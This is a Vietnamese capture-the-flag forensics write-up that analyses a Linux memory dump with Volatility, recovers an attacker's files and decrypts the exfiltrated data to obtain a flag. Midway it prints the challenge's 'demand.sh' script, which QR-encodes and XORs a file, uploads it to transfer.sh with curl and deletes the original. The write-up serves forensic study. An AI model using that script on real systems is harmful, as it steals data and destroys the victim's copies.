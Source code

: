 Đề bài tên là `Linux is hurt`, vì thế ta đoán file `mem.bin` đã cho là dump file của Linux.

Mình sử dụng tool `volatility` để phân tích file này, tuy nhiên vol gốc chỉ hỗ trợ cho các file profile Windows thôi, nên ta tiến hành build profile khác vào vol:

> strings mem.bin | grep Version

![Screenshot (3975)](https://github.com/NVex0/uWU/assets/113530029/d3d94a2e-f148-48c8-82a1-b65f8d2538de)

Ta lấy được tên Ubuntu20.04, tiến hành docker trên ubuntu20.04 để lấy được thông tin kernel và các thông tin khác cần thiết. Zip lại thành file `Ubuntu2004.zip`. Ném vào path `/volatility/plugins/overlays/linux`. Check lại profile list của vol:

![image](https://github.com/NVex0/uWU/assets/113530029/614dd4c0-29b8-4747-9e11-389e74fb768c)

Build xong rồi :v, sử dụng profile này và phân tích file đó.

Với Plugins `linux_bash`, ta thấy 1 số thông tin thú vị:

![image](https://github.com/NVex0/uWU/assets/113530029/88746497-6047-4e08-834d-1dc12615c5ea)

Ta thấy user đã tải về 1 file tên `toy.zip`, mở ra và làm 1 số thứ gì đó khả nghi (ta thấy có file enc, tức là user đã tiến hành encrypt gì đó).

Vì thế mình nghĩ tới việc dump file zip này ra để xem, ta sẽ grep để kiếm full path:

![image](https://github.com/NVex0/uWU/assets/113530029/e467885a-440c-4908-8cc1-061d5964ea36)

Sau đó tìm file đó bằng plugin `linux_find_file`:

![image](https://github.com/NVex0/uWU/assets/113530029/31318a24-5179-4364-a241-61ad00a7a7d2)

Oke, đã có Inode của file, dump file zip ra:

> python2 vol.py -f ~/Desktop/mem.bin --profile=LinuxUbuntu2004x64 linux_find_file -i 0xffff9b12ec30cdf8 -O toy.zip

Trên bash history, đoạn command 7z có set password: `maltoy`. Sử dụng pass này để mở zip. Tuy nhiên sau đó mình chỉ lấy được file `deman.sh` :(

Sau khi hỏi Author thì mình có thêm 1 file pcap nữa, mà file này khi extract ra ta sẽ được `toy.zip` đúng, mình mở zip và lấy được cả 2 file như sau:

![image](https://github.com/NVex0/uWU/assets/113530029/f4fa99c2-631f-484a-bb93-f6b701d8b975)

Mở file `demand.sh`:
```
#!/bin/bash
file="$1"
output="$2"
if [ -z "$output" ]; then
    output = "output"
fi
if [ ! -f "$file" ]; then
    exit 1
fi
if [ "$(uname)" == "Darwin" ]; then
    filesize=$(stat -f "%z" "$file")
else
    filesize=$(stat -c%s "$file")
fi
chunksize=64
nchunks=$((filesize/chunksize))
for i in $(seq 0 $nchunks); do
    dd if="$file" of=chunk_"$i" bs="$chunksize" skip="$i" count=1
done
for i in $(seq 0 $nchunks); do
    qrencode -t png -o frame_"$i".png < chunk_"$i" -s 9
done
if [ "$(uname)" == "Darwin" ]; then
    ffmpeg -y -r 10 -i frame_%d.png $output
else
    ffmpeg  -i frame_%d.png $output  -y -r 10
fi
rm -f chunk_*
rm -f frame_*
xortool-xor -f $output -h $(openssl rand -hex 100) > $output.kcs
curl --upload-file ./$output.kcs https://transfer.sh/robots.txt
rm -f $output.kcs
rm -f $output
rm -f $1
```
Vậy là ta hiểu bash `demand.sh` cắt file đầu vào thành nhiều chunk, sau đó encode các chunk đó sang dạng ảnh QR, ghép QR lại thành 1 file GIF, cuối cùng upload nó lên `transfer.sh`.

Sau khi tìm hiểu thì mình biết web transfer.sh này, sau khi upload file lên đó, nó sẽ trả về 1 link dẫn tới file này cho bất kì người nào khác. Tiến hành grep ra:

![image](https://github.com/NVex0/uWU/assets/113530029/ffdfbc3b-c19c-46ca-b5b8-3249a7ee903f)

Um, ta có được link tới file đầu ra này: https://transfer.sh/vXpvqj/robots.txt . Tải nó về thôi :D

Dựa theo bash code, ta sẽ dịch ngược lại data gốc. Mình sẽ tóm tắt các bước dịch ngược lại như này:

1. Xử lí xor. `xortool-xor -f $output -h $(openssl rand -hex 100) > $output.kcs`
2. Cắt `$output` để lấy lại các frame ảnh.
3. QR frame -> data.
4. Ghép data lại.

Ở bước 1, `$output` đã bị Xor với 1 random key 100 bytes. Mình sử dụng `xortool` để bruteforce lại cái key này.

Để ý bash history: `./deman.sh qr.png.enc out.gif`. Ta biết được `$output` là 1 bức ảnh gif, vì thế mình biết được bytes xuất hiện nhiều nhất trong gif là `00` (no data).

Run command sau:

![image](https://github.com/NVex0/uWU/assets/113530029/86996f87-e499-4e1b-83c1-a4a8ef44b1ab)

Ra đúng 1 key :v, xem thử đầu ra nào.

![image](https://github.com/NVex0/uWU/assets/113530029/61f01103-3671-4b07-95ab-e60956b8d596)

File GIF, ngon rồi. Sau đó tách các frame trong gif ra:

> ffmpeg -i 0.gif -r 10 -vsync 0 Frame_%d.png

Vì bước này mình không biết tool nào QR -> data nhiều cái 1 lúc nên mình ném từng ảnh 1 lên tool 😢

Với 7 frame đã có, decode QR và được các data như sau:

`s1VGv0oBj4Wsz+GqR5nYdw==OSxMSZRlAgmv+fLDdm2ZJJeABsi1ZLN20vLYG2EFo+ccZsR/0bljlnC3hRRCLlskMGCd1N5Ci2st7CY9sz65YRWaHWkY1lnspuBzOnRvOGibepJNEYwU/tNstEGC7xh7MElaVRgDyY8PzvKiQ5uCtElFI3I23QSP4KI5AtQReN0d7dvOQ9nqHgtTVr3wSVt6tPhLKQg1INiZDsjwELvYgXcx6QOpOn3GhJB8TzksZ7eksCs9BJ06RTRRPdHtKHAlLDxItgKo2yctR2lkcQMGU0nQDQW/YNx4medptGqR8gjxR0SSC/xHyfFCYigWRIpQSN9ywVrs4RgBIUwqEH0Pr6lbE8URcuvm/9OVcPcRXbokwfNHRNWabPF6pLmgnaETbFwfiBKAcEA6dmLvviSPMg==`

Vậy là ta đã có được data gốc rồi :v.

|
|
Tiếp tới file `evil`, file đó là 1 file `ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=8203f620bc278dd6a87dfca5cfeebceecc1998bd, for GNU/Linux 2.6.32, stripped`

Khi run thử thì thấy:

![image](https://github.com/NVex0/uWU/assets/113530029/d0f44c2a-a47d-47f0-a988-feebd1879cb9)

Oh, vậy đây là 1 file gốc python, mình dùng `pyintxtractor.py` và `uncompyle6` để lấy được py nguyên bản:

![image](https://github.com/NVex0/uWU/assets/113530029/2f8ddfec-bd3d-4cc7-9c5c-d1928b700d5b)

Dựa vào code, ta biết file `evil` lấy 2 đầu vào để tiến hành encrypt, sau đó write `iv` ghép với `ciphertext`. Từ đó dựa vào data mà mình có ở bước decode QR lấy data trên, ta có được:
+ iv : s1VGv0oBj4Wsz+GqR5nYdw==
+ ciphertext : OSxMSZRlAgmv+fLDdm2ZJJeABsi1ZLN20vLYG2EFo+ccZsR/0bljlnC3hRRCLlskMGCd1N5Ci2st7CY9sz65YRWaHWkY1lnspuBzOnRvOGibepJNEYwU/tNstEGC7xh7MElaVRgDyY8PzvKiQ5uCtElFI3I23QSP4KI5AtQReN0d7dvOQ9nqHgtTVr3wSVt6tPhLKQg1INiZDsjwELvYgXcx6QOpOn3GhJB8TzksZ7eksCs9BJ06RTRRPdHtKHAlLDxItgKo2yctR2lkcQMGU0nQDQW/YNx4medptGqR8gjxR0SSC/xHyfFCYigWRIpQSN9ywVrs4RgBIUwqEH0Pr6lbE8URcuvm/9OVcPcRXbokwfNHRNWabPF6pLmgnaETbFwfiBKAcEA6dmLvviSPMg==

Với key, mình grep:
> strings mem.bin | grep -w ./evil -A 50

Và lấy được thông tin:

![image](https://github.com/NVex0/uWU/assets/113530029/bf489bb2-f3f3-41f5-933e-9101feef2850)
Vậy là có key, key là `5.15.0-kali3`. 

Thông tin cần thiết đã có đủ :v, mình viết script sau để decrypt nó ra:

```
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
from Crypto.Util.Padding import unpad
import base64 

data ='OSxMSZRlAgmv+fLDdm2ZJJeABsi1ZLN20vLYG2EFo+ccZsR/0bljlnC3hRRCLlskMGCd1N5Ci2st7CY9sz65YRWaHWkY1lnspuBzOnRvOGibepJNEYwU/tNstEGC7xh7MElaVRgDyY8PzvKiQ5uCtElFI3I23QSP4KI5AtQReN0d7dvOQ9nqHgtTVr3wSVt6tPhLKQg1INiZDsjwELvYgXcx6QOpOn3GhJB8TzksZ7eksCs9BJ06RTRRPdHtKHAlLDxItgKo2yctR2lkcQMGU0nQDQW/YNx4medptGqR8gjxR0SSC/xHyfFCYigWRIpQSN9ywVrs4RgBIUwqEH0Pr6lbE8URcuvm/9OVcPcRXbokwfNHRNWabPF6pLmgnaETbFwfiBKAcEA6dmLvviSPMg=='
data = base64.b64decode(data)

key = '5.15.0-kali3'
key = key.encode('UTF-8')
key = pad(key, AES.block_size)
iv = base64.b64decode('s1VGv0oBj4Wsz+GqR5nYdw==')
cipher = AES.new(key, AES.MODE_CFB, iv)
plaintext = cipher.decrypt(data)
plaintext = unpad(plaintext, AES.block_size)


#Vì là decrypt từ qr.png.enc mà, nên out file là qr.png.
f = open('qr.png','wb')
f.write(plaintext)
f.close()
```

Ngon liền :v
![image](https://github.com/NVex0/uWU/assets/113530029/e8b4814e-2f54-4101-acde-e9f772efd5c0)

Decode ra và ta được flag:

Flag : `KCSC{K1_n13m_L1nuX}`
